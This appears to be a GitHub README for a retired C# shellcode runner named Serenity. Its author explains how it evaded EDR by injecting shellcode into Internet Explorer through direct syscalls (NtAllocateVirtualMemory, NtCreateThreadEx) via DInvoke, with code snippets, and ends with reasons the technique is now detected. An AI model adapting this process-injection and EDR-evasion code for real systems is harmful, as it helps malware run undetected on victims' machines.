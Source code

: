 # Disclaimer
I stopped using this when APT-37 was observed [exploiting Internet Explorer](https://blog.google/threat-analysis-group/internet-explorer-0-day-exploited-by-north-korean-actor-apt37/) and as a result, I noticed that a week after that my malware was getting identified by MDE, which resultant, led to detections in nearly every other EDR. I did switch to Microsoft Edge, which kept it going for a few more months, but ultimately I had to put it down. It will take significant rewrites to get this bypassing EDR once again, as well as rewrites to adapt to modern day .NET and VS Studio.
# Technical Info
Serenity was a C# shellcode runner I made and used a few years ago to bypass EDR. It leverages DInvoke, a .NET library that will let you use direct system call invocation. EDR hooks traditional Windows API calls like ```OpenProcess```, ```VirtualAllocEx```, thus, DInvoke uses native system calls at runtime as an alternative.

As an example, you can see this in action within this code snippet
```
var ptr = Generic.GetSyscallStub("NtOpenProcess");
var ntOpenProcess = Marshal.GetDelegateForFunctionPointer(ptr, typeof(Native.DELEGATES.NtOpenProcess)) 
    as Native.DELEGATES.NtOpenProcess;
```
The address of ```NtOpenProcess``` is dynamically resolved by ```Generic.GetSyscallStub()``` at runtime - which bypasses user-mode hooks.

Next, there's the memory allocation and injection
```
var ptr = Generic.GetSyscallStub("NtAllocateVirtualMemory");
var ntAllocateVirtualMemory = Marshal.GetDelegateForFunctionPointer(ptr, typeof(Native.DELEGATES.NtAllocateVirtualMemory)) 
    as Native.DELEGATES.NtAllocateVirtualMemory;

ntAllocateVirtualMemory(hProcess, ref hMemory, IntPtr.Zero, ref regionSize, 
    Win32.Kernel32.MEM_COMMIT | Win32.Kernel32.MEM_RESERVE, Win32.WinNT.PAGE_READWRITE);
```
Instead of using ```VirtualAllocEx``` I was using ```NtAllocateVirtualMemory``` directly to allocate memory in IE. The protection was later changed to ```PAGE_EXECUTE_READ``` using ```NtProtectVirtualMemory```.

For the final step, the actual execution is utilizing ```NtCreateThreadEx``` which created a thread while avoiding API hooks, unlike ```CreateRemoteThread```.
```
var ptr = Generic.GetSyscallStub("NtCreateThreadEx");
var ntCreateThreadEx = Marshal.GetDelegateForFunctionPointer(ptr, typeof(Native.DELEGATES.NtCreateThreadEx)) 
    as Native.DELEGATES.NtCreateThreadEx;

var status = ntCreateThreadEx(out _, Win32.WinNT.ACCESS_MASK.GENERIC_ALL, IntPtr.Zero, hProcess, hMemory, IntPtr.Zero, false, 0, 0, 0, IntPtr.Zero);
```

Why this malware is dead in 2025:
- I mean, first and foremost, ```iexplore.exe``` spawning threads with shellcode is suss.
- ```NtAllocateVirtualMemory``` and ```NtCreateThreadEx``` are monitored heavily now, and being called in such quick succession is a red flag.
- Kernel-level syscall monitoring
- A million other behavioral indicators, another being Symon/ETW.
